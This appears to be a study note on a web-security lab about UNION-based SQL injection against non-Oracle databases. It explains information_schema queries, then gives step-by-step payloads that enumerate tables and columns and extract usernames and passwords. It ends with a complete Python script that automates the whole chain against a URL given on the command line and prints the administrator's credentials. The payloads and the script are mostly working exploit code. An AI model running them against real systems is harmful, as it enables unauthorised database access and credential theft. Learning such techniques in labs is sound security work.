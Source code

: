 # Listing the contents of the database (non-Oracle)
---
Most database types (_with the notable exception of Oracle_) have a set of views called the _information schema_ which provide information about the database.

You can query `information_schema.tables` to list the tables in the database:
```sql
SELECT * FROM information_schema.tables
```
This returns output like the following:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE 
===================================================== 
MyDatabase     dbo           Products    BASE TABLE 
MyDatabase     dbo           Users       BASE TABLE 
MyDatabase     dbo           Feedback    BASE TABLE`
```

This output indicates that there are `three` tables, called `Products`, `Users`, and `Feedback`.
You can then query `information_schema.columns` to list the columns in individual tables:
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
This returns output like the following:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE 
================================================================= 
MyDatabase     dbo           Users       UserId       int 
MyDatabase     dbo           Users       Username     varchar 
MyDatabase     dbo           Users       Password     varchar`
```

# Lab: SQL injection attack, listing the database contents on non-Oracle databases
---
1. Use bupsuite to intercept and modify the request that sets the product category filter.
2. Determine the [[2. Determining columns required in an UNION attack|number of columns that are being returned by the query]] and [[3. Finding columns to inject in UNION attack|which columns contain text data]].
3. Verify that the query is returning `two` columns, both of which contain text, using a payload like the following in the `category` parameter:
	- `' UNION SELECT 'a','a'--`
4. Use the following payload to retrieve the list of tables in the database:
	- `' UNION SELECT table_name,NULL FROM information_schema.tables--`
5. Find the name of the table containing user credentials.
6. Use the following payload (_replacing the table name_) to retrieve the details of the columns in the table:
	- `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_abcdef'--`
7. Find the names of the columns containing usernames and passwords.
8. Use the following payload (_replacing the table and column names_) to retrieve the usernames and passwords for all users:
	- `' UNION SELECT username_abcdef || ':' || password_abcdef,NULL FROM table_abcdef--`
9. Find the password for the `administrator` user, and use it to log in.

```python
#!/usr/bin/env python3
# Listing the database contents on NON-Oracle databases
import requests
import sys
import re
from bs4 import BeautifulSoup

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_col(url):
    for i in range(1,10):
        sqli = f"' ORDER BY {i}--"
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" in req.text:
            return i-1
        i = i+1
    return False

def determined_col(url, number_col):
    for i in range(1,number_col+1):
        payload_list = ['NULL'] * number_col
        payload_list[i-1] = "'a'"
        sqli = f"' UNION SELECT {','.join(payload_list)}--"
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" not in req.text:
            return sqli
    return False

def user_table(url, sqli):
    sqli1 = sqli.replace("'a'", "table_name")
    sqli2 = sqli1.replace("--", " FROM information_schema.tables--")
    # ' UNION SELECT table_name,NULL FROM information_schema.tables--
    req = requests.get(url+sqli2, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        result = soup.find(string=re.compile('.*users.*'))
        return result
    else:
        return False
    
def user_column(url, sqli, table_name):
    sqli1 = sqli.replace("'a'", "column_name")
    sqli2 = sqli1.replace("--", f" FROM information_schema.columns WHERE table_name = '{table_name}'--")
    # ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='user_abcde'--
    req = requests.get(url+sqli2, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        username = soup.find(string=re.compile('.*username.*'))
        password = soup.find(string=re.compile('.*password.*'))
        return username, password
    else:
        return False

def dump_creds(url, sqli, username_column, password_column, table_name):
    sqli1 = sqli.replace("'a'", f"{username_column} || ':' || {password_column}")
    sqli2 = sqli1.replace("--", f" FROM {table_name}--")
    # ' UNION SELECT username || ':' || password,NULL FROM table_name--
    req = requests.get(url+sqli2, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        dumping = soup.find(string=re.compile('administrator:[A-Za-z0-9]+'))
        return dumping
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: {} <url>".format(sys.argv[0]))
        print("[-] Usage: {} http://example.com".format(sys.argv[0]))

    num_col = get_col(url)
    if num_col:
        print("[-] The number of columns is...      [{}]".format(num_col))

        deter_col = determined_col(url, num_col)
        if deter_col:
            print("[-] Found the injectable columns...  [{}]".format(deter_col))

            listing_user_table = user_table(url, deter_col)
            if listing_user_table:
                print("[-] Found the users table_name...    [{}]".format(listing_user_table))

                username_column, password_column = user_column(url, deter_col, listing_user_table)
                if username_column and password_column:
                    print("[-] Found the username_column...     [{}]".format(username_column))
                    print("[-] Found the password_column...     [{}]".format(password_column))

                    dump = dump_creds(url, deter_col, username_column, password_column, listing_user_table)
                    if dump:
                        print("[-] Found the superuser creds...     [{}]".format(dump))
                    else:
                        print("[-] Can't dump the credentials!")
                else:
                    print("[-] Can't find the users column!")
            else:
                print("[-] Can't find the users table!")
        else:
            print("[-] Can't find injectable column!")
    else:
        print("[-] SQLi not successful!")
```